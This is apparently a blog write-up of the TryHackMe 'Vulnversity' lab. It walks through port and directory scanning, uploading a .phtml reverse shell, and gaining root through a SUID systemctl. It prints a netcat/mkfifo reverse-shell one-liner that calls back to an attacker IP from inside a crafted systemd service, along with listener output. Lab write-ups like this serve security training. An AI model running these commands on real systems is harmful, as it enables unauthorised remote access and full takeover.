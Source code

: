 ```yaml
---
title: "Vulnversity"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="vulnversity.png" alt="vulnversity" style="width: 200px;" >}}

Welcome to your first lecture! if you wanna graduate from vulnversity you need to know some basics. Take a seat!

The course starts now

## Reconnaissance

The very first step is gathering information about your target
Its primordial and probably the most valuable step

```bash
PORT     STATE SERVICE     REASON  VERSION
21/tcp   open  ftp         syn-ack vsftpd 3.0.3

22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB

139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp  open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)

3128/tcp open  http-proxy  syn-ack Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved

3333/tcp open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h42m39s, deviation: 2h53m13s, median: 2m39s
| smb2-time:
|   date: 2022-01-22T15:14:47
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2022-01-22T10:14:45-05:00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 59436/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 39429/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 44245/udp): CLEAN (Timeout)
|   Check 4 (port 10751/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VULNUNIVERSITY<00>   Flags: <unique><active>
|   VULNUNIVERSITY<03>   Flags: <unique><active>
|   VULNUNIVERSITY<20>   Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

```bash
└──╼ $gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.173.218:3333
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.173.218:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/22 16:23:49 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 294]
/.htpasswd            (Status: 403) [Size: 299]
/.htaccess            (Status: 403) [Size: 299]
/css                  (Status: 301) [Size: 319] [--> http://10.10.173.218:3333/css/]
/fonts                (Status: 301) [Size: 321] [--> http://10.10.173.218:3333/fonts/]
/images               (Status: 301) [Size: 322] [--> http://10.10.173.218:3333/images/]
/internal             (Status: 301) [Size: 324] [--> http://10.10.173.218:3333/internal/]
/index.html           (Status: 200) [Size: 33014]
/js                   (Status: 301) [Size: 318] [--> http://10.10.173.218:3333/js/]
...

===============================================================
2022/01/22 16:25:37 Finished
===============================================================
```

upon visiting the `internal` dir we get file upload
But obviously `.php` is not allowed (that would be trivial)
so using burpsuite sniper we fuzz for allowed extensions and `.phtml` is our answer
upload it and prepare your listenner

visit `http://10.10.153.97:3333/internal/uploads/reverse-shell.phtml`

Get access on your listenner. Now you are in

```bash
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 35656
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:50:04 up 2 min,  0 users,  load average: 1.51, 1.23, 0.51
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

```
Meet `bill` and get the user flag

```bash
$ cd /home
$ ls
bill
$ cd bill
$ ls
user.txt
$ cat user.txt
user_flag_for_50_points_on_100
```

## privilege escalation

One of our favorite part. Its time to get ultimate privileges by becoming root
We usually check `sudo` first but this lesson will cover the next step
Looking for SUID! the hint command is very simple but does not filter errors
you can look for more ways to look for SUID/GUID in the linux privilege escalation room

Or on google

```bash
$ find / -perm -u=s 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

Simple yet efficient...If you understood clearly what SUID was
Or if you had more experience
you would be surprised by the presence of `/bin/systemctl` in that list

you should also make yourself more familiar with [Gtfobbins](https://gtfobins.github.io/)
They specialized in common privilege escalation vectors and binaries like systemctl
Those are the commands they proposed for this one

```bash
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

But as we are not script kiddies (ugh)...we nderstand we cannot just copy-paste it
We understand what it does and modify it accordingly
First we need a better shell (with TTY)

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/home/bill$
```
Then we paste this instead for a reverse shell

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.226.203 4444 >/tmp/f"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
You might need to restart systemctl again using

`/bin/systemctl enable --now $TF`

you will then almost immediately get a root shell on your listener
you prepared a listener right?
if so, you deserve that flag!

```bash
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 35674
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
root_flag_for_100_percent
```

voilà! congratulations student!
you did it this far, so you can go further!
practice other rooms to get comfortable with what was covered here
and of course never stop learning!

class dismissed!

